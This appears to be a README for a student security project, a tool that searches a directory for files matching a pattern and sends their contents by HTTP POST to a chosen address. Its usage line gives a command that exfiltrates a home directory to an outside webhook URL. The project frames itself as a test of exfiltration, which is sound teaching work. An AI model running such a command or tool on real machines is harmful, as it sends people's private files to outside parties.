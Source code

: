 # bhg-final-project
This project is designed to test how files can be exfiltrated from
a target machine. The program will locate all files matching a given
regular expression pattern and create an HTTP POST with the data and
the filenames.

# Usage
Call the fileSearch executable with the directory you would like to 
search, along with the destination address the data will be sent to.
./fileSearch /home/user/ https://webhook.site/27227c6f-b632-4b50-ae7e-a38b18629b2c

